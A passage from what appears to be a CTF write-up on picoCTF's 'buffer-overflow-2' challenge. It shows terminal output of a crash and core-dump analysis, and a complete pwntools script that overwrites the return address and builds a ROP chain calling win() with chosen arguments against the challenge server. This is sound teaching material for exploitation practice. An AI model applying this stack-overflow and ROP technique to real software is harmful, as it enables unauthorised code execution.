 {% ccb html:true wrapped:true terminal:true %}
<span class="meta prompt_">$ </span>python3 buffer-overflow-2.py REMOTE
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;: pid 3988
[<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; stopped with exit code
-11 (SIGSEGV) (pid 3988)
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/core&apos;
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffca3290
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; (0x8048000)
    Fault:     0x62616164
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
Please enter your string: 
\xf0\xfe\xcadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua-<br>aaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04r\x93\x04
picoCTF{argum3nt5_4_d4yZ_<span style="color:#696969"><b>[REDACTED]</b></span>}
{% endccb %}

### II: The Easy Way 🐇

But... what if you wanted to be an even **more** lazy pwner? Well, you're in luck, because I present to you: the **[pwntools ROP object](https://docs.pwntools.com/en/stable/rop/rop.html)**! By throwing our elf object into `ROP()` it transforms, and we can use it to automatically call functions and build chains! Here it is in action:

{% codeblock buffer-overflow-2-automated.py lang:py https://gist.github.com/jktrn/a5bfe03bdf5b2d766ef5fa402e9e35d6 [github gist link] %}
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln' checksec=False)    # sets elf object
rop = ROP(elf)                                         # creates ROP object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # creates local process w/ elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parses core dump file

rop.win(0xCAFEF00D, 0xF00DF00D)                        # Call win() with args
payload = fit({cyclic_find(core.eip): rop.chain()})    # pad ROP chain

if args.REMOTE:
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()
{% endcodeblock %}
